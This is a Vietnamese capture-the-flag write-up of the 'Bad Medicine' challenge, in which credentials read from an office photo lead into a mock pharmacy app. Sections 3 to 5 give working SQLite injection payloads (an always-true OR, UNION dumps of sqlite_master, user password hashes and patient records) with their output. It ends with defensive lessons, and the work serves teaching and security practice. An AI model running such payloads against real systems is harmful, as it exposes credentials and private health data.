









# Bad Medicine — Writeup

| | |
|---|---|
| **Challenge** | Bad Medicine (10 điểm) |
| **Event** | RSTCON 2026 |
| **Author** | Veryyes |
| **Category** | Web — OSINT từ ảnh + SQL Injection |
| **Target** | `https://18.215.143.250:5000` (MedVault — Prescription Inventory Management System) |
| **Flag** | `rstcon{p@ss_teh_hydrocod0n3_brah}` |

> *"A healthcare system, so it's HIPAA compliant right? RIGHT?"*

Challenge kèm một tấm ảnh văn phòng (`office-photo.jpg`) — toàn bộ manh mối nằm trong ảnh: credentials viết tay trên giấy note, và gợi ý SQLi trên bảng trắng.

---

## 1. OSINT từ tấm ảnh văn phòng



Ảnh chụp một quầy thuốc với nhiều manh mối "bị lộ" theo cách đời thường — đúng tinh thần HIPAA-FAIL của đề bài.

### 1.1. Bảng trắng — gợi ý SQL injection

Trên bảng trắng có sẵn cả URL nội bộ lẫn một payload mẫu:

```
medvault.local/prescriptions?search=
id=1 OR 2=2 --
```



Đây là tín hiệu rõ ràng nhất: **chức năng tìm kiếm của MedVault dính SQLi**, và payload mẫu dùng toán tử `OR` luôn đúng.

### 1.2. Giấy note hồng trên ổ cứng ngoài — credentials

Mảnh note dán trên ổ cứng ngoài chứa tài khoản viết tay bằng **bút gel trắng** — chính vì màu mực sáng hơn giấy nên khi xử lý ảnh phải **đảo kênh màu (invert)** mới đọc rõ:



```
skim / PharmD#2026!
```

> **Cái bẫy của challenge nằm ở đây.** Chữ viết tay quá khó đọc: mình từng đọc sai username thành `ckim`, rồi `akim` (đúng theo cảm nhận thị giác ban đầu nhưng sai với server). Phải tách kênh màu + invert + phóng to từng dòng, chạy qua phân tích ảnh nhiều lần mới chốt được chữ đầu là **`s`** → `skim`. Kết quả đăng nhập: `akim` fail, `skim` → **302 thành công**.
>
> Bài học CTF: khi credentials từ ảnh không chạy, đừng tin đọc lần đầu — xử lý ảnh kỹ hơn (invert/threshold/tách kênh) và thử các biến thể gần giống.

## 2. Đăng nhập & khám phá app

Đăng nhập `skim / PharmD#2026!`:



Vào dashboard **Rx Inventory** — một form tìm kiếm thuốc với tham số `?q=` (URL trên bảng trắng ghi `prescriptions?search=` nhưng app thật dùng `/` + `q`):



Chi tiết vui: footer có chữ trắng 1px ẩn (bôi đen để thấy): *"how do i illegally get prescription drugs"* — query của bạn "đang bị log" 🙃

## 3. Xác nhận SQL Injection (SQLite)

Test dấu nháy đơn `'` → trang **in nguyên lỗi SQL ra ngoài**:

```
SQL error: unrecognized token: "' ORDER BY id"
```



Lỗi lộ luôn cấu trúc query — câu SQL phía server có dạng:

```sql
SELECT id, name, ndc, category, quantity FROM inventory
WHERE name LIKE '%{q}%' ORDER BY id
```

- Cụm `unrecognized token` là **cách diễn đạt của SQLite** → xác nhận engine.
- Input được nhét thẳng vào chuỗi `LIKE '%...%'` mà không tham số hóa.

Payload `q=' OR 1=1 --` trả về **toàn bộ bảng inventory**:



## 4. UNION-based dump database

Vì query gốc SELECT 5 cột (hiển thị trong bảng kết quả), payload UNION cần đúng 5 cột, và phải đóng chuỗi `'%` trước:

```
q=' UNION SELECT 1,name,sql,1,1 FROM sqlite_master --
```

→ SQL thành: `WHERE name LIKE '%' UNION SELECT 1,name,sql,1,1 FROM sqlite_master --%' ORDER BY id`

Liệt kê được toàn bộ schema — 5 bảng: `inventory`, `patients`, `prescriptions`, `insurance_claims`, `users`:



Dump thử `users` (9 tài khoản, hash pbkdf2 — không chứa flag):

```
q=' UNION SELECT 1,username||char(58)||password_hash,role,full_name,1 FROM users --
```

```
admin:pbkdf2:sha256:260000$Zz0Aa1Bb$1be5f9d8...
skim:pbkdf2:sha256:260000$LzVq9Xk3$a4f8e2c1...   ← Sarah Kim, role=admin
arao / bpham / dgarcia / jmendoza / jwhitfield / kthompson / mtorres / rdominguez
```

> Mẹo nhỏ: thay vì nối chuỗi bằng `||':'||` (dễ vướng quoting), dùng `||char(58)||` để tránh dấu nháy đơn trong payload.

## 5. Tìm flag trong dữ liệu PHI

Không có bảng nào tên `flag` — flag giấu trong **dữ liệu bệnh nhân (PHI)**, đúng chủ đề "HIPAA compliant RIGHT?". Thay vì dump cả bảng `patients` (hàng trăm dòng), dùng luôn SQL LIKE để tìm chuỗi `rst`/`flag` trong mọi cột:

```
q=' UNION SELECT 1,'FOUND'||first_name||last_name,1,1,1 FROM patients
    WHERE first_name||last_name||phone||coalesce(email,'')||address LIKE '%rst%'
       OR first_name||last_name||address LIKE '%flag%' --
```

→ đúng 1 kết quả: **Theresa Fernandez**. Dump full record của bà ta (dùng `char()` mã hóa tên để tránh quote):

```
q=' UNION SELECT 1,first_name||char(32)||last_name,date_of_birth,phone,email
    FROM patients
    WHERE last_name=char(70,101,114,110,97,110,100,101,122)  -- 'Fernandez'
      AND first_name=char(84,104,101,114,101,115,97)         -- 'Theresa'
```

Flag nằm trong trường **phone** của bệnh nhân:



```
Theresa Fernandez | DOB 1998-12-05
phone: rstcon{p@ss_teh_hydrocod0n3_brah}
email: theresaf@protonmail.com
addr:  13341 Exposition Blvd #4D, Austin TX 78746
```

## Flag

```
rstcon{p@ss_teh_hydrocod0n3_brah}
```

*(đúng tinh thần đề: hỏi cách mua thuốc cause "illegally" — được tặng luôn password "hydrocodone" 😂)*

---

## Tóm tắt các bước

1. **OSINT ảnh**: bảng trắng lộ URL + payload `OR 2=2` (SQLi hint); note hồng trên ổ cứng lộ tài khoản `skim / PharmD#2026!` (chữ viết tay bằng bút gel trắng — cần invert ảnh mới đọc rõ).
2. **Đăng nhập** bằng credentials từ ảnh → dashboard Rx Inventory với form search `?q=`.
3. **Xác nhận SQLi**: `'` → lỗi SQLite lộ query `LIKE '%q%' ORDER BY id`; `' OR 1=1 --` → dump toàn bộ.
4. **UNION SELECT** 5 cột từ `sqlite_master` → schema 5 bảng.
5. **Tìm flag bằng SQL LIKE** trong dữ liệu patients → Theresa Fernandez → flag trong cột `phone`.

## Bài học & cách phòng chống

- **Threat model "bút và giấy"**: credentials dán trên đồ vật (ổ cứng, màn hình) là vector lộ thật ngoài đời. Mật khẩu không được viết tay ở nơi làm việc — và hệ thống nên bật 2FA.
- **SQL Injection 101**: query nối chuỗi (`f"...LIKE '%{q}%'"`) thay vì tham số hóa (`?` placeholder). Lỗi SQL lại being in thẳng ra response giúp attacker định hình query chính xác trong 1 request. Cả hai đều phải sửa: dùng prepared statements + trang error riêng, không lộ traceback/SQL.
- **Flag không nằm trong bảng tên `flag`**: với đề bài "PHI", flag giấu trong dữ liệu nghiệp vụ (record bệnh nhân). Đừng chỉ nhìn tên bảng — search nội dung mọi bảng bằng SQL (LIKE/INSTR) sẽ nhanh hơn dump thủ công.
- **Kỹ thuật CTF**: khi payload cần dấu nháy mà sợ vướng, dùng `char()`/`hex()`/`||`; khi ảnh mờ, thử invert + tách kênh màu — mực sáng trên giấy tối (hoặc ngược lại) sẽ bật rõ sau inversion.

## Danh sách file ảnh

| File | Nội dung |
|---|---|
| `bm_00_overview.jpg` | Tổng quan ảnh văn phòng |
| `bm_01_note.png` | Note hồng credentials (đã invert) |
| `bm_02_whiteboard.png` | Bảng trắng — hint SQLi |
| `bm_03_login.png` | Trang login với tài khoản skim |
| `bm_04_dashboard.png` | Dashboard Rx Inventory |
| `bm_05_sqlerror.png` | Lỗi SQLite lộ query |
| `bm_06_or1eq1.png` | Kết quả `' OR 1=1 --` |
| `bm_07_schema.png` | Dump schema sqlite_master |
| `bm_08_flag.png` | Record chứa flag |
